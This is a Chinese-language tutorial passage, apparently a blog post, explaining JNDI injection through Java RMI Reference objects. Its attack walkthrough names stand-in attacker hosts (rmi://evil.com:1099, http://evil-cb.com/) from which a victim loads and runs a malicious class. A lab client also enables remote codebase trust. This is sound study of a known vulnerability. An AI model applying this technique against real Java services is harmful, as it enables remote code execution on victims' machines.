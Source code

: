 

Reference类：

Reference类表示对存在于命名/目录系统以外的对象的引用。

Java为了将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming或Directory服务下，比如RMI、LDAP等。

在使用Reference时，我们可以直接将对象写在构造方法中，当被调用时，对象的方法就会被触发。

几个比较关键的属性：

- className：远程加载时所使用的类名；
- classFactory：加载的class中需要实例化类的名称；
- classFactoryLocation：远程加载类的地址，提供classes数据的地址可以是file/ftp/http等协议

**这个类中包含被引用对象的类信息和地址**。



因为在JNDI中，对象传递要么是序列化方式存储（对象的拷贝，对应按值传递），要么是按照引用（对象的引用，对应按引用传递）来存储，当序列化不好用的时候，我们可以使用Reference将对象存储在JNDI系统中。so，利用思路如下：

**将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行**



![img](https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/6.png)



1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 `rmi://evil.com:1099/refObj`；
2. 原先配置好的上下文环境 `rmi://localhost:1099` 会因为动态环境转换而被指向 `rmi://evil.com:1099/`；
3. 应用去 `rmi://evil.com:1099` 请求绑定对象 `refObj`，攻击者事先准备好的 RMI 服务会返回与名称 `refObj`想绑定的 ReferenceWrapper 对象（`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`）；
4. 应用获取到 `ReferenceWrapper` 对象开始从本地 `CLASSPATH` 中搜索 `EvilObject` 类，如果不存在则会从 `http://evil-cb.com/` 上去尝试获取 `EvilObject.class`，即动态的去获取 `http://evil-cb.com/EvilObject.class`；
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 `EvilObject.class`；
6. 应用开始调用 `EvilObject` 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行；



 **PS**: JNDI协议动态转换即在运行时动态地切换JNDI提供者的类型或实现。这种转换可以在应用程序的代码中发生，例如在代码中更改JNDI上下文的URL以使用不同的服务提供者。这样可以在不修改应用程序代码的情况下实现切换和更改JNDI提供者。类比于换手机卡，不同的卡可以提供不同的服务，可以根据需要更换卡来达到切换服务的目的

我的JDK版本是jdk1.8.0_361 





客户端代码：

```java
import javax.naming.Context;
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args)throws Exception {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");//允许RMI协议进行远程调，可能是JDK版本的问题,没有这个会报错
        String uri = "rmi://127.0.0.1:1099/refObj";
        Context ctx = new InitialContext();
        System.out.println("Using lookup() to fetch object with " + uri);
        ctx.lookup(uri);
    }

}

```
